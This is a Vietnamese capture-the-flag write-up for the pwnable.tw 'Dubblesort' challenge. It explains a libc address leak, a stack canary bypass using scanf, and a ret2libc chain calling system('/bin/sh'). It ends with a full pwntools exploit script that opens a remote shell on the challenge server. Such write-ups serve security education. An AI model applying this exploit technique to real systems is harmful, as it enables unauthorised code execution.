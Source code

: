 # Dubblesort \[200pts\] (pwnable.tw)



> Sort the memory!
>
> `nc chall.pwnable.tw 10101`
>
> [dubblesort](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/dubblesort)
>
> [libc.so](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/libc_32.so.6)

[Phiên bản libc local (Ubuntu 20.04)](https://github.com/th3-5had0w/writeups/raw/main/dubblesort%5Bpwnable.tw%5D/local_libc.so.6)

## Những đoạn code cần lưu ý

### 1) Leak libc

![pic1](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_1.png)

#### Ở đây chương trình đọc input vào nhưng không chặn chuỗi bằng nullbyte (`\x00`) => Ta có thể nhập các kí tự để hàm printf leak được địa chỉ của libc.

![pic3](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_3.png)

#### Mình đã nhập 8 chữ `a` kèm theo kí tự enter `\x0a`, và như ảnh trên thì có thể thấy địa chỉ chỉ libc rất gần với nơi ta nhập input. (1)
#### Ngoài ra kí tự enter của mình đã ghi đè lên byte nullbyte (`\x00`) của libc, mà printf sẽ in các bytes ra màn hình cho đến khi gặp kí tự nullbyte (`\x00`), vì kí tự enter của mình đã ghi đè lên 1 byte `\x00` của địa chỉ libc nên khi leak được bạn nhớ trừ đi `\x0a` (2)

#### Từ (1) và (2) => Ta có thể leak được libc.

#### Nhưng đây mới chỉ là địa chỉ libc nằm tại segment `.got.plt` đã được map, để tìm địa chỉ libc gốc thì ta phải lấy địa chỉ vừa leak được trừ đi địa chỉ chưa được map.

![pic7](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_7.png)

#### Ở đây address là 0x001eb000 vì mình đang readelf libc local của mình, có thể address ở libc bạn sẽ khác và address ở libc của remote server cũng sẽ khác.

```
địa chỉ libc gốc = địa chỉ libc đã leak - 0x001eb000 - 0x0a
```

### 2) Lỗi tràn bộ nhớ tại đoạn code nhập số lượng số mà ta muốn nhập vào

![pic2](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_2.png)

#### Ở đây v4 chính là con trỏ của v13, chương trình sẽ hỏi ta muốn nhập bao nhiêu số, sau mỗi một số nhập vào thì v4 sẽ tăng lên 1, có nghĩa là `vị trí của con trỏ tăng lên 4` vì kích cỡ của kiểu `int`, nhưng ở đây ta không hề thấy có một hàm hay dòng lệnh nào để kiểm tra => Khi tăng vị trí của con trỏ lên một kích cỡ nhất định (4\*n) thì ta sẽ gặp lỗi buffer overflow!

![pic4](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_4.png)

#### Nhưng ta gặp vấn đề là chương trình này có bật cơ chế `Stack Canary`.

![pic5](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_5.png)

#### Vì chương trình đọc input các số vào bằng hàm `scanf` nên ta có thể bypass dễ dàng bằng cách nhập một kí tự không phải là số vào ô dữ liệu nơi chứa `Stack Canary`, cụ thể ở đây là ở số thứ 25.

![pic6](https://github.com/th3-5had0w/writeups/blob/main/dubblesort%5Bpwnable.tw%5D/res/pic_5.png)

#### Như trên hình thì không hề có cảnh báo `*** stack smashing detected ***`, vậy là ta đã bypass được `Stack Canary`.

### 3) Kết luận

#### Vậy là ta đã leak được libc và bypass được `Stack Canary` để điều khiển con trỏ `RIP`.

#### Đây là chương trình chạy kiến trúc x86 nên theo calling convention của nó ta sẽ truyền vào `RIP` theo thứ tự:

```
[RIP] = địa chỉ của hàm system
[RIP+4] = tùy ý (đây là return pointer của hàm system, sau hàm system thì ta không cần return về đâu nữa vì đã có shell)
[RIP+8] = địa chỉ của chuỗi /bin/sh (đây chính là tham số đầu tiên của hàm system)
```

#### Ta cũng cần lưu ý về cơ chế sort của chương trình để tránh giá trị của canary bị sửa đổi ngoài ý muốn.

#### Nhưng ở đây thì canary, địa chỉ của hàm system và địa chỉ của chuỗi /bin/sh đã được nhập vào theo thứ tự từ nhỏ đến lớn ngay từ đầu.

#### Vậy là ta đã exploit thành công chương trình. Đây là code exploit của mình:
```python
from pwn import *

debug = False

if (debug):
    io = process('./dubblesort')
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    offset = 0x001eb000
else:
    io = remote('chall.pwnable.tw', 10101)
    libc = ELF('libc_32.so.6')
    offset = 0x001b0000

print(io.recv())

# ----- leak libc ở local và ở remote vì phiên bản libc khác nhau -----

if (debug):
    io.sendline(b'aaaaaaaa')
    print('trash: ', io.recv(14))
else:
    io.sendline(b'aaaaaaaaaaaaaaaaaaaaaaaa')
    print('trash: ', io.recv(30))
info = io.recv(4)
print('raw: ', info)
virtual_libc = u32(info)-0xa
print('leaked: ', hex(virtual_libc))
print('trash: ', io.recv())
libc.address = virtual_libc - offset
print('base libc addr: ', hex(libc.address))
print('system: ', hex(libc.sym['system']))
print('bin/sh: ', hex(next(libc.search(b'/bin/sh'))))

# ---------------------------------------------------------------------

io.sendline(b'35')
for i in range(24):
    print(io.recv())
    io.sendline(b'0')

# ----- bypassing stack canary -----

print(io.recv())
io.sendline(b'-')

# ----------------------------------

for i in range(32-25):
    print(io.recv())
    io.sendline(str(libc.sym['system']))

# ----- điều khiển con trỏ RIP theo calling convention của cấu trúc x86 system_address -> return_address -> argument -----

print(io.recv())
print('New RIP value: ', libc.sym['system'])
io.sendline(str(libc.sym['system']))

print(io.recv())
print('Sending /bin/sh: ', next(libc.search(b'/bin/sh')))
io.sendline(str(next(libc.search(b'/bin/sh'))))
print(io.recv())
print('Sending /bin/sh: ', next(libc.search(b'/bin/sh')))
io.sendline(str(next(libc.search(b'/bin/sh'))))

# ------------------------------------------------------------------------------------------------------------------------

print(io.recv())
io.interactive()
```
